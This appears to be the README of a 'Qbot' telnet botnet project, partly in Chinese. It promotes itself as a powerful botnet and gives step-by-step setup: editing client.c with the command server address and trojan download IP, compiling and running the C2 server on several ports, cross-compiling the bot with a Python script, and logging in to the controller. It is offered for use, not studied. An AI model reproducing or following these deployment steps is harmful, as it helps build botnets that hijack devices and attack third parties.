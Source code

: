 # qbot
Qbot Botnet. Telnet botnet, most powerfull and strong botnet. requirements: 2 linux server.

yum install wget git gcc python2 python3 tar bzip2 


1. 修改client.c
commServer ip:port1
以及木马下载ip

2. 安装gcc screen python vim  tar tar bzip2

apt-get install gcc screen python2 python3 vim   tar bzip2 

3. 编译server
gcc -o server server.c -pthread


screen ./server port1 port2 port3
screen ./server 2323  7777 10000

port3 > port2

 
CTRL + A + D //退出screen


python2 cc7.py client.c ip

新建login.txt

username password


putty
ip port3 
